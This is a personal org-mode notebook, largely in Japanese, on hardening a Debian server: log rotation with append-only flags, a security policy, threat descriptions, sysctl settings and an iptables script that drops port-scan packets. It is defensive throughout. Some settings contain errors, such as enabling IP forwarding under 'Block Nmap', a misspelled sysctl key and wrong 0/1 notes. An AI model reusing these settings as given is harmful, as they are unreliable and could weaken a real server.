		invoke-rc.d rsyslog reload > /dev/null
		/usr/bin/chattr +a /var/log/syslog
		endscript

		}

****** ulogd
       :PROPERTIES:
       :SUMMARY:  ulogd1
       :END:

# apt-get install ulogd
# mkdir /var/log/iptables && touch /var/log/iptables/iptables.log
******* /etc/ulogd.conf
		[LOGEMU]
		file="/var/log/iptables/iptables.log"
		sync=1
******* /etc/logrotate.d/ulogd
		/var/log/ulog/*.log {
		missingok
		compress
		sharedscripts
		create 640 root adm
		postrotate
		/etc/init.d/ulogd reload
		endscript
		}


		/var/log/iptables/iptables.log {
		daily
		rotate 10
		dateext
		dateformat -%Y-%m-%d
		missingok
		compress
		sharedscripts
		create
		ifempty
		prerotate
		/usr/bin/chattr -a /var/log/iptables/iptables.log
		endscript
		postrotate
		/usr/bin/chattr +a /var/log/iptables/iptables.log

# mv to archive
    	cd /var/log/iptables
		for file in $(ls iptables.log-????-??-??.gz); do
	    year=`ls $file | cut -d "-" -f2`;
	    month=`ls $file | cut -d "-" -f3`;
	    logdir=/var/log/iptables/$year/$month
	    mkdir -p $logdir
	    mv $file $logdir
	    if [ -e iptables.log-????-??-??.gz ]; then
	    continue
	    else
	    break
   	    fi
		done;
		/etc/init.d/ulogd reload
		endscript
		}

****** ntpstats
******* /etc/cron.daily/ntp
#!/bin/sh

# The default Debian ntp.conf enables logging of various statistics to
# the /var/log/ntpstats directory.  The daemon automatically changes
# to a new datestamped set of files at midnight, so all we need to do
# is delete old ones, and compress the ones we're keeping so disk
# usage is controlled.

		statsdir=$(cat /etc/ntp.conf | grep -v '^#' | sed -n 's/statsdir \([^ ][^ ]*\)/\1/p')

		if [ -n "$statsdir" ] && [ -d "$statsdir" ]; then
		# only keep a week's depth of these
        #find "$statsdir" -type f -mtime +7 -exec rm {} \; # comment out

		# compress whatever is left to save space
		cd "$statsdir"

# move to directory
		for file in $( ls *stats.????????.gz ); do
		year=`ls $file | cut -d "." -f2 | cut -c-4 `
		month=`ls $file | cut -d "." -f2 | cut -c5-6 `
		logdir=/var/log/ntpstats/$year/$month
		mkdir -p $logdir
		mv $file $logdir
		ls *stats.????????.gz > /dev/null 2>&1
		stats=$?
		if [ $stats -eq 0 ] ; then
        continue
		else
        break
		fi
		done;


		ls loopstats.???????? peerstats.???????? > /dev/null 2>&1
		if [ $? -eq 0 ]; then

		# Note that gzip won't compress the file names that
		# are hard links to the live/current files, so this
		# compresses yesterday and previous, leaving the live
		# log alone.  We supress the warnings gzip issues
		# about not compressing the linked file.
		gzip --best --quiet loopstats.???????? peerstats.????????
		return=$?
		case $return in
		2)
		  exit 0			# squash all warnings
		  ;;
		  *)
		  exit $return	 	# but let real errors through
		  ;;
		  esac
		  fi
		  fi

****** cron
******* /etc/logrotate.d/rsyslog
		/var/log/cron.log
		{
		rotate 4
		monthly
		missingok
		ifempty
		compress
		dateext
		dateformat -%Y-%m
		prerotate
		/usr/bin/chattr -a /var/log/cron.log
		endscript
		postrotate
		cronnameformat="cron.log-????-??.gz"
		if [ -e /var/log/$cronnameformat ]; then
		for file in $(ls /var/log/cron-????-??.gz); do
		year=`ls $file | cut -d "-" -f 2`
		logdir=/var/log/cron/$year
		mkdir -p $logdir
		mv $file $logdir
		/usr/bin/chattr +i $logdir$cronnameformat
		if [ -e /var/log/$cronnameformat ]; then
       	continue
		else
		break
		fi
		done;
		fi

		invoke-rc.d rsyslog reload > /dev/null
		/usr/bin/chattr +a /var/log/cron.log
		endscript
		}

****** auth
******* /etc/logrotate.d/auth
		:PROPERTIES:
		:SUMMARY:  etc-logrotate.d-auth
		:END:

		/var/log/auth.log
		{
		rotate 4
		monthly
		missingok
		ifempty
		compress
		dateext
		dateformat -%Y-%m
		prerotate
		/usr/bin/chattr -a /var/log/auth.log
		endscript
		postrotate
		authnameformat="auth.log-????-??.gz"
		if [ -e /var/log/$authnameformat ]; then
		for file in $(ls /var/log/auth-????-??.gz); do
		year=`ls $file | cut -d "-" -f 2`
		logdir=/var/log/auth/$year
		mkdir -p $logdir
		mv $file $logdir
		/usr/bin/chattr +i $logdir$authnameformat
		if [ -e /var/log/$authnameformat ]; then
       	continue
		else
		break
		fi
		done;
		fi

		invoke-rc.d rsyslog reload > /dev/null
		/usr/bin/chattr +a /var/log/auth.log
		endscript
		}

****** user
******* /etc/logrotate.d/rsyslog
		/var/log/user.log
		{
		rotate 4
		yearly
		missingok
		ifempty
		compress
		dateext
		dateformat -%Y
		prerotate
		/usr/bin/chattr -a /var/log/user.log
		endscript
		postrotate
		usernameformat="user.log-????.gz"
		if [ -e /var/log/$usernameformat ]; then
		for file in $(ls /var/log/$usernameformat); do
		logdir=/var/log/user/
		mkdir -p $logdir
		mv $file $logdir
		/usr/bin/chattr +i $logdir$usernameformat
		if [ -e /var/log/$usernameformat ]; then
       	continue
		else
		break
		fi
		done;
		fi

		invoke-rc.d rsyslog reload > /dev/null
		/usr/bin/chattr +a /var/log/user.log
		endscript
		}

****** sulog
******* /etc/login.defs
# mv sulog sulog.tmp
# mkdir  sulog
# mv sulog.tmp sulog/sulog
# nano /etc/login.defs
		SULOG_FILE	/var/log/sulog/sulog
****** apt
	   - # rm /etc/logrotate.d/apt
	   - # chattr +a /var/log/apt/term.log /var/log/apt/history.log
****** aptitude
	   - # rm /etc/logrotate.d/aptitude
	   - # chattr +a /var/log/aptitude
****** dpkg
	   - # rm /etc/logrotate.d/dpkg
	   - # chattr +a /var/log/dpkg.log
****** exim4
****** kern
****** daemon
****** boot
****** dmesg
****** faillog
****** debug
****** message
****** unattended-upgrades
****** pycentral.log
****** lpr
****** installer
****** fsck
****** wtmp
****** btmp
******* /etc/login.defs
# mv /var/log/btmp /var/log/btmp.tmp
# mkdir /var/log/btmp
# mv /var/log/btmp.tmp /var/log/btmp/btmp
# nano /etc/login.defs
		FTMP_FILE    /var/log/btmp

***** boot 時のログを全て記録
      :PROPERTIES:
      :SUMMARY:  etc-default-bootlogd
      :END:

	  - # nano /etc/default/bootlogd
		BOOTLOGD_ENABLE=YES

***** logwatch
***** syslog-summary
      :PROPERTIES:
      :SUMMARY:  syslog-summary1
      :END:

	  /var/log/syslog
	  {
	  rotate 7
	  daily
	  missingok
	  delaycompress
	  compress
	  dateext
	  dateformat -%Y-%m-%d
	  prerotate
	  /usr/bin/chattr -a /var/log/syslog
	  endscript
	  postrotate
	  if [ -e /var/log/syslog-????-??-??.gz ]; then
	  for file in $(ls /var/log/syslog-????-??-??.gz); do
	  year=`ls $file | cut -d "-" -f 2`
	  month=`ls $file | cut -d "-" -f 3`
	  logdir=/var/log/rsyslog/$year/$month
	  mkdir -p $logdir
	  mv $file $logdir
	  /usr/bin/chattr +i $logdir$file
	  if [ -e /var/log/syslog-????-??-??.gz ]; then
      continue
	  else
	  break
	  fi
	  done;
	  fi

	  invoke-rc.d rsyslog reload > /dev/null
	  /usr/bin/chattr +a /var/log/syslog
	  endscript

	  }

	  /var/log/mail.info
	  /var/log/mail.warn
	  /var/log/mail.err
	  /var/log/mail.log
	  /var/log/daemon.log
	  /var/log/kern.log
	  /var/log/lpr.log
	  /var/log/debug
	  /var/log/messages
	  {
	  rotate 4
	  weekly
	  missingok
	  notifempty
	  compress
	  delaycompress
	  sharedscripts
	  postrotate
	  invoke-rc.d rsyslog reload > /dev/null
	  endscript
	  }

	  /var/log/cron.log
	  {
	  rotate 4
	  monthly
	  missingok
	  ifempty
	  compress
	  dateext
	  dateformat -%Y-%m
	  prerotate
	  /usr/bin/chattr -a /var/log/cron.log
	  endscript
	  postrotate
	  if [ -e /var/log/cron.log-????-??.gz ]; then
	  for file in $(ls /var/log/cron-????-??.gz); do
	  year=`ls $file | cut -d "-" -f 2`
	  logdir=/var/log/cron/$year
	  mkdir -p $logdir
	  mv $file $logdir
	  /usr/bin/chattr +i $logdir$file
	  if [ -e /var/log/cron.log-????-??.gz ]; then
      continue
	  else
	  break
	  fi
	  done;
	  fi

	  invoke-rc.d rsyslog reload > /dev/null
	  /usr/bin/chattr +a /var/log/cron.log
	  endscript
	  }

	  /var/log/user.log
	  {
	  rotate 4
	  yearly
	  missingok
	  ifempty
	  compress
	  dateext
	  dateformat -%Y
	  prerotate
	  /usr/bin/chattr -a /var/log/user.log
	  endscript
	  postrotate
	  if [ -e /var/log/user.log-????.gz ]; then
	  for file in $(ls /var/log/user.log-????.gz); do
	  logdir=/var/log/user/
	  mkdir -p $logdir
	  mv $file $logdir
	  /usr/bin/chattr +i $logdir$file
	  if [ -e /var/log/user.log-????.gz ]; then
      continue
	  else
	  break
	  fi
	  done;
	  fi

	  invoke-rc.d rsyslog reload > /dev/null
	  /usr/bin/chattr +a /var/log/user.log
	  endscript
	  }

***** swatch
***** lire
**** remove File & Directory
	 :PROPERTIES:
	 :SUMMARY:  remove-file-directory
	 :END:

	 - # rm -rf /usr/games /usr/local/games
***** remove login message
      :PROPERTIES:
      :SUMMARY:  remove-login-message
      :END:

	  - rm /etc/motd.tail
	  - nano /etc/motd

**** 管理用ユーザー設定
	 :PROPERTIES:
	 :SUMMARY:  add_group
	 :END:

	 - # nano /etc/group
	   adm:x:4:root,t1
	   fuse:x:106:t1    # for sshfs
	   # nano /etc/pam.d/su
	   auth required pam_wheel.so group=adm

**** apt のダウンロード幅を制限 (保留)
	 - # nano /etc/apt/apt.conf
	   APT::Acquire::http::Dl-Limit "
*** Security
**** Policy
   	 :PROPERTIES:
   	 :SUMMARY:  security_policy1
   	 :END:
***** そもそも本当にセキュリティが必要か?
***** なぜセキュリティが必要か?
	  インターネットにサーバーを公開すると次のような脅威にさらされる為である。
****** 侵入
	   攻撃者の多くはネットワークを経由して侵入を試みる。
	   攻撃者の大半は、無差別にターゲットを選び、セキュリティーホールなどの不具合を狙う。
	   サーバーをインターネットに公開直後から不正アクセスログが記録され続けることからも明らか。

******* 情報漏洩
		攻撃者により、サーバーに保存されている機密情報を入手 (参照) されてしまう。
		侵入者が入手を試みる情報には、サーバーが保持するアカウント/ パスワード情報や電子商取引などで使用している顧客情報などがある。
		また、盗聴ツールを仕掛けられことによる情報漏洩の可能性もある。この被害は、機密性の侵害にあたる。

******* 改竄、消去
		侵入者が、故意にファイルやデータを変更したり削除したりする行為である。
		改ざんの対象としては、 Web ページやログファイル、パスワードファイル、設定ファイルなどがあげられる。
		また、システム動作に関連するファイルを削除するような、システムの破壊的な行為が行われる場合もある。
		この被害は、インテグリティ、可用性、説明可能性の侵害にあたる。

******* バックドア作成
		バックドアとは、主に侵入者が侵入したサーバーへ再び侵入するために、サーバー管理者に見つからないように仕掛けた裏口のことである。
		バックドアには、特定ポートでシェルを起動させたり、バックドアプログラムを仕掛けたり、パスワードなしでログインできるユーザを追加するなどがある。
		この被害は、機密性の侵害にあたる。

******* 踏み台
		踏み台とは、攻撃者がサーバーを攻撃する際に、攻撃拠点として利用するサーバー (既に攻撃者によって侵入されているサーバー) を指す。
		その結果、被害者は実際の攻撃者から攻撃を受けるのではなく、踏み台となったサーバーから攻撃されたことになり、踏み台となったサーバーは、加害者となってしまうことがある。
		これらにより相手に大きな被害を与えてしまった場合、攻撃側となった者が莫大な損害賠償を請求される可能性もある。
		第三者サーバーへの攻撃が不正アクセス者による者である確実な証拠を提示できなければ責任を問われることになる。
		又、この被害は、機密性の侵害にもあたる。
		個人のサーバーの場合、情報資産 よりも踏み台やスパムの拠点として狙われる可能性が大きいと思われる。

****** サービス使用妨害
	   サービス妨害 (DoS : Denial of Service) 攻撃とは、攻撃のターゲットとなるサーバーやネットワークの提供するサービスを妨害する行為である。
	   DoS 攻撃によって、発生する被害 (脅威) には以下のようなものがある。

	   - OS 、サービスのダウン
		 DoS 攻撃のターゲットとなった OS またはサービスが、攻撃によりダウンしてしまう。
		 そのため、意図的に OS やサービスを再起動しなければ、正常サービスの提供が開始できない。
		 この被害は、ソフトウェアのバグを悪用した DoS 攻撃により発生する場合が多い。
		 この被害は、可用性の侵害にあたる。

	   - 一時的なサービスの停止
		 DoS 攻撃を受けている間、正常サービスの提供が妨害されてしまうが、攻撃終了後、正常なサービス提供が復旧する。
		 主に、この被害は、過負荷を与える DoS 攻撃により生じるもので、多量のパケットを利用した DoS 攻撃の場合、パケット数が一定値以下に削減されることで、正常なサービスが提供できる状態に戻る。この被害は、可用性の侵害にあたる。

****** 盗聴
	   盗聴とは、ターゲットとなるサーバーまたはネットワークの情報を盗み取るものである。
	   盗聴により入手した情報を基に、侵入攻撃など行うことが可能になる。
	   この盗聴により、発生する被害 (脅威) には以下のようなものがある。

****** 情報漏洩
	   攻撃者により、サーバーに保存されている機密情報を入手 (参照) されてしまう。
	   侵入者が入手を試みる情報には、サーバーが保持するアカウント/ パスワード情報や電子商取引などで使用している顧客情報などがある。
	   また、盗聴ツールを仕掛けられたことによる情報漏洩の可能性もある。
	   この被害は、機密性の侵害にあたる。

****** 参照
	   (cf. 2011 年 7 月 30 日 [[http://www.ipa.go.jp/security/awareness/administrator/secure-web/chap3/3_require-3.html][IPA セキュアな Web サーバーの構築と運用 3.2.3 セキュリティ脅威の洗い出しと評価]])

***** なぜセキュリティポリシーが必要か?
	  - セキュリティの目標、基準を明確にし、よい意志決定をしセキュリティを強固で抜け目のないものにするため。
	  - セキュリティの一貫性の維持
		これらがが明確でないと時間とともにセキュリティツール間に、一貫性がなくなる。
		また、数あるセキュリティツールを使いこなすことも容易でなくなる。
		明確でないこということは、何をチェック、制約すべきかが曖昧になる。

		一貫性のないセキュリティはセキュリティホールを開ける要因となる。
		セキュリティに一貫性がなく機能の導入や削除を繰り返していると人為的ミスによってセキュリティホールを開けてしまうことになる。

		(cf. RFC2196)

***** 目標
	  - 学習も兼ねて、オープンソースで機能を積極的に導入し、サーバーのセキュリティを強固で抜け目のないものにする。

	  - スパムメールの拠点、 Dos アタック、踏み台等になることは断固さける。

	  - 法令、判例を理解し遵守。

***** 基準
****** リスク
	   - 個人のサーバーの為、情報資源よりも踏み台、スパムの拠点として狙われる可能性が高い。
		 踏み台や、スパムの拠点となってしまった場合、不正アクセスの容疑者などとして
		 サーバー等を押収される恐れがある。

****** どのような攻撃から何を守るのか
# セキュリティ対策を実施するには、どのような攻撃から何を守るのかを明確にすることが肝要。
	   攻撃:
	   - Dos 攻撃、侵入、ウイルス

		 守るべき物:
	   - サーバの権限

****** 利便性とセキュリティのバランス
	   - セキュリティと利便性はトレードオフである。
		 個人のサーバーにおいてはセキュリティよりも、利便性を優先してしまいがちだが基本的にセキュリティを優先する。
		 個々のサービスは、それぞれ固有のセキュリティリスクを持っている。
		 サービスによっては便益よりリスクの方が大きい場合がある。
		 このような場合、サービスの停止を考慮すべきである。

****** 操作性とセキュリティのバランス
	   - 常識的範囲内で操作性よりもセキュリティを優先する。
	   - どんなユーザにもアクセスを許容し、パスワードを要求しないシステムはよい操作性といえる。
		 すなわち、セキュリティのないものといえる。
		 パスワードを要求することによって、操作性は失われるがセキュリティの高いものといえる。
****** コストとセキュリティのバランス
	   - ソフト面はオープンソースで実装。
		 ハード面は個人ができうる限りの実装を試みる。

****** 定期的に直し
	   - 定期的見直し
		 IT の発展速度は極めて速いため、ある時に構築したセキュリティが、
		 永続的にセキュリティを担保できることはない。
		 セキュリティは継続的取り組みによって保てるものであると認識しなければならない。
		 将来の技術、脅威の動向等を踏まえ評価見直しを行う。
		 policy の見直し> 設計の見直し > 反映 > 運用 > 監査
		 (cf. 2011 年 7 月 29 日 [[http://www.kantei.go.jp/jp/it/security/taisaku/guideline.html][情報セキュリティポリシーに関するガイドライン- II.基本的な考え方 - 1. 意義 - (2) 情報セキュリティの特性]])
		 定期的に pentest  し必要があれば更新を行う 一年
		 システムを更新したら pentest
		 踏み台やスパムの拠点となってしまった場合、長期に渡ってサーバーに異変が及ぶことがほとんどである。
		 よって、定期的点検が重要である。

	   - セキュリティ用件の見直し
		 [[http://www.ipa.go.jp/security/fy18/development/localgov/][情報処理推進機構：情報セキュリティ：セキュリティ要件検討支援ツール]]

****** 利用者
	   - もちろん自分 1 人のみ
	   - 例外的に友人、知人などにファイルの受け渡し等の環境整備も考慮

****** password
	   password 心得
	   -①パスワードを秘密にしておくこと。
	   -②パスワードのメモは作らないこと。ただし、メモが安全に保管される場合はその限りではない。
	   -③情報システム又はパスワードに対する危険のおそれがある場合は、パスワードを変更すること。
	   -④適切な長さを持つパスワードを選択すること。その文字列については、想定しにくいものにしなければならない（詳細は実施手順で定める。）。
	   -⑤パスワードは定期的に、若しくはアクセス回数に基づいて変更し、古いパスワードの再利用をしてはならない。管理者用パスワードはさらにこのサイクルを頻繁にすること。
	   -⑥利用者のパスワードは他人に使用させないこと。
	   -⑦モバイル機器にパスワードを記憶させてはならない。
	   (cf. 2011 年 7 月 30 日 [[http://www.kantei.go.jp/jp/it/security/taisaku/guideline.html][情報セキュリティポリシーに関するガイドライン - III.ポリシーのガイドライン - (5) 対策基準の策定 - (iv) 人的セキュリティ - (d) パスワードの管理]])
******* スーパーコンピューター処理速度
		- スパコン京、 2011 年 7 月 25 日現在の計算速度    (cf.[[http://www.top500.org/list/2011/06/100][TOP500]])
		  1 秒         =         816200000000000         (8162 兆) 10**15
		  1 分         =       48972000000000000     (48 京 9720 兆) 10**17
		  1 時間       =     2938320000000000000   (2938 京 3200 兆) 10**19
		  1 日         =    70519680000000000000 (7 垓 519 京 6800 兆) 10**20
		  一ヶ月 (30 日)= 21155904000000000000000   (2115 垓 5904 京) 10**23

******* パスワード組み合わせ
		abcdefghijklmnopqrstuvwxyz     26 文字
		ABCDEFGHIJKLMNOPQRSTUVWXYZ     26 文字
		0123456789                     10 文字
		~@#$%^&*()_+-=[]{},.\"/?:;`    27 文字
		SPACE                          1 文字
        合計   90 文字
		パスワード 90 文字の文字数 18 文字で
		150094635296999121000000000000000000 通り (15 澗 94 溝 6352 穣 9699 口 9121 垓) 10**37
		上記のスパコンで 7094692587799 ヶ月かかる。

****** security 階層別基準
******* 1. 抑止 & 狙わせない
		- 抑止力: 活動をやめさせる力。思いとどまらせる力。
		  行為の達成が困難、または代償が高くつくことを予見させ、その行為を思いとどまらせる力。
		  まず、標的にならないことが重要。

******* 2. セキュリティホールをつくらない
		- 定期的にアップデート、環境を常に最新の状態にする。

		- 情報収集体制の構築
		  情報セキュリティに関するニュース、情報に気を配る。
		  情報を分析し、最新の動向を把握する。

		- システムをコンパクトでシンプルに保つ
		  一般的な原則として複雑なシステムは管理に高度な知識が要求され、繁雑になりやすく脆弱性を抱える要因となる。
		  システムは最小構成にする。

******* 3. network level
		- ファイアーウォールを強固にする。

******* 4. 検知
******* 5. application level
******** ウイルス対策
		 - アンチウィルスソフトは導入しない。
		   パーミッション管理、 selinux に重点を置く。

******** 最小権限の原則 principle of least privilege
******* 6. 最終防衛ライン
******* 7. 緊急時の対策
		trace 環境構築
		届け出
		[[http://www.ipa.go.jp/security/tode/][情報処理推進機構：情報セキュリティ：届出について]]

**** Prerequisites
***** Law 管理者側の義務
# 不正アクセス者を処罰してもらうためには、被害者側のコンピューターに
# アクセス制御機能が備わっていることが前提条件となる。
	  (cf. 2011 年 7 月 26 日 [[file:~/Doc/law.org::アクセス管理者による防御措置][不正アクセス行為禁止等に関する法律-第五条]])
	  (cf. 2011 年 7 月 26 日 [[http://itpro.nikkeibp.co.jp/article/COLUMN/20090605/331438/][第 27 回　不正アクセス禁止法　アクセス制御機能は管理者側の義務]])
# pdf 配置すること (保存済み)

***** Infomation Gathering
	  - [[http://www.mod.go.jp/j/publication/wp/index.html][防衛省・自衛隊：防衛白書 サイバー攻撃について]]

**** Physical
	 - [ ] マシーンルームへ立ち入らせない。
	 - [ ] [[鍵付きケース][ケースに鍵を掛ける]] BIOS 初期化対策 hdd アクセス禁止
	 - [ ] BIOS で chassis intrusion を設定しケースの開閉を監視

**** Stealth
**** Network
***** Iptable
	  - 拒否リスト作成
		国別ファイアーウォール
		特に ssh は厳密に遮断。
# ポートの指定は番号で指定する。
# 読みにくくなるがサービス名をチェックする必要がなくなる為多少速くなる。
# (cf. 2011 年 7 月 15 日 [[http://www.asahi-net.or.jp/~aa4t-nngk/ipttut/output/implicitmatches.html][Iptables チュートリアル 1.2.2 Chapter 10.iptables のマッチ 10.2.1. TCP マッチ]])

****** iptables-up
       :PROPERTIES:
       :SUMMARY:  iptables-up1
       :END:

#!/bin/sh


## Valiables
#
SERVER_IP="192.168.1.123"

# /etc/network/if-up.d/iptables-up

PATH=/sbin:/bin:/usr/sbin:/usr/bin

## Enable TCP SYN cookie protection from SYN floods.
#
echo 1 > /proc/sys/net/ipv4/tcp_syncookies

## Disable ICMP redirect acceptance.
#
#echo 0 > /proc/sys/net/ipv4/conf/all/accept_redirects

## Enable bad error message protection
#
#echo 1 > /proc/sys/net/ipv4/icmp_ignore_bogus_error_responses

## Log spoofed packets, source routed packets, redirect packets
#
echo 1 > /proc/sys/net/ipv4/conf/all/log_martians

## Disable response to broadcasts.
#
#echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts

### Initialize
##
#
/sbin/iptables -F INPUT
/sbin/iptables -F OUTPUT
/sbin/iptables -F FORWARD
/sbin/iptables -X         # Delete user-define chain
/sbin/iptables -Z         # Zero the packet and byte counters in all chains.

## basic
#
/sbin/iptables -P INPUT DROP
/sbin/iptables -P OUTPUT ACCEPT
/sbin/iptables -P FORWARD DROP

### INPUT
## Allow all INPUT from localhost
#
/sbin/iptables -A INPUT -s 127.0.0.1 -d 127.0.0.1 -i lo -j ACCEPT -m comment --comment "Allow all INPUT from localhost"

## ssh
#
/sbin/iptables -A INPUT -p tcp --dport 12316 -j ACCEPT -m comment --comment "Allow INPUT ssh port 12316"

## Squid proxy
#
/sbin/iptables -A INPUT -s 192.168.1.0/24 -p tcp --destination-port 8080 -m state --state NEW -j ACCEPT

## Samba
#
/sbin/iptables -A INPUT -p udp -m udp -s 192.168.1.0/24 --dport 137 -j ACCEPT
/sbin/iptables -A INPUT -p udp -m udp -s 192.168.1.0/24 --dport 138 -j ACCEPT
/sbin/iptables -A INPUT -m state --state NEW -m tcp -p tcp -s 192.168.1.0/24 --dport 139 -j ACCEPT
/sbin/iptables -A INPUT -m state --state NEW -m tcp -p tcp -s 192.168.1.0/24 --dport 445 -j ACCEPT

## king service
#
/sbin/iptables -A INPUT -p udp -m udp -s 192.168.1.0/24 --dport 65535 -j ACCEPT


### Allows all established connections
#
/sbin/iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT -m comment --comment "Allows all established connections"

### Logging
#
/sbin/iptables -A INPUT -j ULOG --ulog-prefix "IPTABLES DROP:"


## Block Nmap
#
echo 1 > /proc/sys/net/ipv4/ip_forward

/sbin/iptables -t filter -A INPUT -p TCP -m state --state RELATED,ESTABLISHED -j ACCEPT
/sbin/iptables -t filter -A INPUT -p UDP -m state --state RELATED,ESTABLISHED -j ACCEPT
/sbin/iptables -t filter -A INPUT -p ICMP --icmp-type 8 -s 192.168.1.1/24 -d $SERVER_IP -m state --state NEW,RELATED,ESTABLISHED -j ACCEPT
/sbin/iptables -t filter -A INPUT -m state --state INVALID -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ACK,FIN FIN -j LOG --log-prefix "FIN: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ACK,FIN FIN -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ACK,PSH PSH -j LOG --log-prefix "PSH: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ACK,PSH PSH -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ACK,URG URG -j LOG --log-prefix "URG: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ACK,URG URG -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL ALL -j LOG --log-prefix "XMAS scan: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL ALL -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL NONE -j LOG --log-prefix "NULL scan: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL NONE -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL SYN,RST,ACK,FIN,URG -j LOG --log-prefix "pscan: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL SYN,RST,ACK,FIN,URG -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags SYN,FIN SYN,FIN -j LOG --log-prefix "pscan 2: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags SYN,FIN SYN,FIN -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags FIN,RST FIN,RST -j LOG --log-prefix "pscan 2: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags FIN,RST FIN,RST -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL SYN,FIN -j LOG --log-prefix "SYNFIN-SCAN: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL SYN,FIN -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL URG,PSH,FIN -j LOG --log-prefix "NMAP-XMAS-SCAN: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL URG,PSH,FIN -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL FIN -j LOG --log-prefix "FIN-SCAN: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL FIN -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL URG,PSH,SYN,FIN -j LOG --log-prefix "NMAP-ID: "
/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags ALL URG,PSH,SYN,FIN -j DROP

/sbin/iptables -t filter -A INPUT   -p tcp --tcp-flags SYN,RST SYN,RST -j LOG --log-prefix "SYN-RST: "


###### test
##
## SYN-Flooding Protection
#
#iptables -N syn-flood
#iptables -A INPUT -i eth0 -p tcp --syn -j syn-flood
#iptables -A syn-flood -m limit --limit 1/s --limit-burst 4 -j RETURN
#iptables -A syn-flood -j DROP
#
### Make sure that new TCP connections are SYN packets
##
#iptables -A INPUT -i eth0 -p tcp ! --syn -m state --state NEW -j DROP


****** [[etc/ulog.conf][iptables.log]]
***** snort
***** /etc/hosts.deny /etc/hosts.allow
***** denyhosts
***** /etc/at.deny
***** (temp) sysctl
      :PROPERTIES:
      :SUMMARY:  sysctl1
      :END:

****** icmp echo ignore
	   - # nano /etc/sysctl.d/icmp_echo_ignore.conf
		 net/ipv4/icmp_echo_ignore_all = 1

		 [[http://www.debian.org/doc/manuals/securing-debian-howto/ch4.en.html][Securing Debian Manual - After installation - 4.17.1 Configuring network features]]

****** Smurf 攻撃対策
# Smurf 攻撃とは 、ターゲットにしたホストに対して、
# 送信元アドレスを偽造した ICMP Echo Request パケットを
# 大量に送り付ける攻撃方法です。
# ICMP Echo Request パケットを特定のホストではなく、
# ブロードキャストアドレスに対して送信した場合、
# そのネットワーク上のすべてのコンピュータから応答パケットが投げ返されます。
# 1 = 有効 (Dos 対策) 2 = 無効

# 確認
	   - # cat /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts

# 反映
	   - # echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts
		 or# sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=1

# 起動時に反映
	   - # nano /etc/sysctl.conf
# Disable Broadcast Ping
		 net.ipv4.icmp_echo_ignore_broadcasts=1  #追加

		 or# nano /etc/network/if-up.d/iptables-up
		 # Disable Broadcast Ping
		 echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts

		 (cf. 2011 年 7 月 16 日 [[http://www.atmarkit.co.jp/flinux/rensai/iptables03/iptables03d.html][＠ IT ： iptables による負荷分散と DoS 対策（ 4/4 ）]])

****** Dos 対策
******** SYN cookie protection from SYN floods
# ACK の確認応答番号を計算し正当なセッションを確認する。
# この計算の為、多少 CPU の処理能力が必要となる。
# 1 = 有効 (Dos 対策) 2 = 無効

# 確認
		 - # cat /proc/sys/net/ipv4/tcp_syncookies

# 反映
		 - # echo 1 > /proc/sys/net/ipv4/tcp_syncookies
		   or# sysctl -w net.ipv4.tcp_syscookies=1

# 上記の方法では再起動すると設定は消える。

# 起動時に反映
		 - # nano /etc/sysctl.conf
# Enable TCP SYN cookie protection from SYN floods. # 追加
		   net.ipv4.tcp_syncookies=1       # 追加

		   or# nano /etc/network/if-up.d/iptables-up
		   # Enable TCP SYN cookie protection from SYN floods.
		   echo 1 > /proc/sys/net/ipv4/tcp_syncookies

		   (cf. 2011 年 7 月 16 日 [[http://www.atmarkit.co.jp/flinux/rensai/iptables03/iptables03d.html][＠ IT ： iptables による負荷分散と DoS 対策（ 4/4 ）]])

**** Host
***** 不要なものはインストールしない (tmp)
	  - 最小構成で OS をインストール
	  - # dpkg --list
	  - [[etc-apt-apt.conf][recommends をインストールしない]]

***** 不要なサービスの停止
	  - # netstat -an
***** BIOS
	  - [ ] Disable CD/FDD/USB boot
	  - [ ] Set Password

***** GRUB Password
	  - [ ] [[GRUB password][Set GRUB sigle user password]]

***** su
****** su コマンドの実行ユーザー制限
       :PROPERTIES:
       :SUMMARY:  su1
       :END:
# group によって実行可能ユーザーを振り分ける
# debian は wheel グループは存在していない。
# 代わりに adm グループを使用する。
	   (cf. [[http://oss.org.cn/man/linux/debian/reference/ch-tune.ja.html#s-wheel][Debian リファレンス - Debian システムのチューニング - なぜ GNU su は wheel グループをサポートしていないのか]] )

	   - # usermod -G adm t1
		 # nano /etc/pam.d/su
# (Replaces the `SU_WHEEL_ONLY' option from login.defs)
# auth       required   pam_wheel.so
		 auth       required   pam_wheel.so group=adm

		 - #check
		   $ su
		   Password:
		   su: Permission denied
****** sudo ユーザー制限
       :PROPERTIES:
       :SUMMARY:  visudo1
